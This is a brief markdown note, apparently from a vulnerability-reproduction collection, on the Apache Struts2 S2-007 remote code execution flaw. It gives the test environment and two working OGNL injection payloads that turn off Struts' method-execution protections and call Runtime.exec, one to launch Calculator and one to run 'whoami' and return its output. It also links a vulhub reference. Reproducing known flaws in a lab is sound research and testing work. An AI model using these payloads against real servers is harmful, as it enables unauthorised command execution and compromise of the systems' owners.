

# S2-007

## Environment
Struts2: struts-2.2.3

Tomcat: 8.5.53

## POC




## Payload

- open calc.exe

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("open /Applications/Calculator.app")) + '
  ```

- run command

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
  ```

## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)